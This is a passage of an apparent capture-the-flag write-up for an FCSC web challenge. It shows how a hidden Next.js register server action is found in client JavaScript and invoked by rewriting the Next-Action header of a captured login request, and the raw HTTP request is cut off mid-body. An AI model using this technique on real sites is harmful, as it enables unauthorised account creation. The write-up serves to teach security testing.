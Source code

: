 ```js
}

export async function register(prevState, formData) {
  const username = formData.get("username");
  const password = formData.get("password");
  if (!username || !password || username.trim() === "" || password.trim() === "") {
    return { success: false, error: "Username and password are required." };
  }
  if (users.some(user => user.username === username)) {
    return { success: false, error: "Username already exists." };
  }
  
  if (password.length < 10) {
    return { success: false, error: "Password must be at least 10 chars long." };
  }
  users.push({ username, password });
  return { success: true };
}
```

The **register** function enables creating a new user but the corresponding UI for registration isn't directly accessible through normal navigation on the page. When inspecting the JavaScript sources loaded by the page, you may notice code constructs like: 

```js
let n = (0, l.createServerReference)("606a919935d7a58f741d3b37dfcdb8df0239d8be02", l.callServer, void 0, l.findSourceMapURL, "login");
let a = (0, l.createServerReference)("60119a0e16f4930d77814c521045541c804c123986", l.callServer, void 0, l.findSourceMapURL, "register");
```
These constructs represent server references linked with specific actions, such as login and register. 

## Modifying the Login Request for Account Creation

**Understanding the Next-Action Header **

The `Next-Action` header uses tokens associated with backend functions.
- 606a919935d7a58f741d3b37dfcdb8df0239d8be02: Corresponds to the login function.
- 60119a0e16f4930d77814c521045541c804c123986: Corresponds to the hidden register function.
     
To create a new account, we can modify an existing login request:
```
POST /login HTTP/2
Host: under-nextruction.fcsc.fr:2213
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/x-component
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://under-nextruction.fcsc.fr:2213/login
Next-Action: 606a919935d7a58f741d3b37dfcdb8df0239d8be02
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%2C%22%2Flogin%22%2C%22refresh%22%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=----geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Length: 998
Origin: https://under-nextruction.fcsc.fr:2213
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: blue
Priority: u=0
Te: trailers

------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_REF_1"
```